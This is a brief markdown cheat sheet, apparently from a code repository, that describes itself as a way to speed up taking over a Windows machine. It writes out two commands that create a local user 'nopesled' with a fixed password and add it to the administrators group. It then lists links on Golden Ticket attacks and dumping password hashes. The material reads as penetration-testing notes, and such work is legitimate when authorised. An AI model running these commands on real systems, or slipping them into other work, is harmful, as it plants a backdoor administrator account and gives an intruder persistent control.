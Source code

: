 # Windows Commands
This file was created to help speed up the process of taking over a windows machine

## Adding an Administrator Account

The commands are as follow:
```
net user /add nopesled toor
net localgroup administrators nopesled /add
```

## Golden Ticket
https://adsecurity.org/?page_id=1821
https://yojimbosecurity.ninja/golden-ticket-with-impacket/
https://malicious.link/post/2011/2011-05-16-dumping-hashes-on-win2k8-r2-x64-with-metasploit/

